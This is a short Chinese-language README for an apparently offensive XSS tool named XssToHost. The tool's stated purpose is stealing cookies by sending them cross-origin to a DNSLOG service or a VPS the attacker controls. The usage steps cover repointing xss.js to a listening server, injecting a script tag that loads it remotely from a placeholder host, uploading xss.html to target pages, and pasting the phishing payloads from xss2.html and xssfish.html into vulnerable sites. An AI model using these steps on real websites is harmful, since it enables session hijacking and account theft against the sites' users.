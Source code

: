 # XssToHost

通过js跨域请求到DNSLOG平台或自己的VPS主机，并实现cookie外带  

## Usage 

1.将xss.js中的http地址改为带有监听功能的服务器，比如DNSLOG或者开了监听的VPS  
2.将xss.js部署在自己的VPS上  
3.当可以打xss时，可用

```html
<script src="http://exmaple.com/xss.js"></script>
```

方式远程加载此文件  
4.如遇到可上传HTML并解析的情况，可将xss.html上传到目标页面，远程加载xss.js  

5.xss2.html与xssfish.html为实战型，修改相关域名直接将html内的语句复制到有xss位置的地方即可
